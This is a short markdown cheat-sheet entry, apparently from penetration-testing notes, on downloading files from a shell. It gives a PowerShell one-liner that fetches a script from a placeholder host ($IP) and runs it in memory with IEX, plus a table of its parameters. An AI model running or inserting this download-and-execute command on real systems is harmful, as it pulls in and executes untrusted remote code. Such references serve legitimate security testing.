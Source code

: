 # Download files from a shell

## Powershell

`powershell "IEX(New-Object System.Net.WebClient).DownloadString(\"http://$IP/$SCRIPT_NAME.ps1\")";""`

| Parameter        | Description           |
| ------------- |:-------------:| 
| $IP | The ip of the host where the script is running  | 
| $SCRIPT_NAME | The name of the script or file  | 

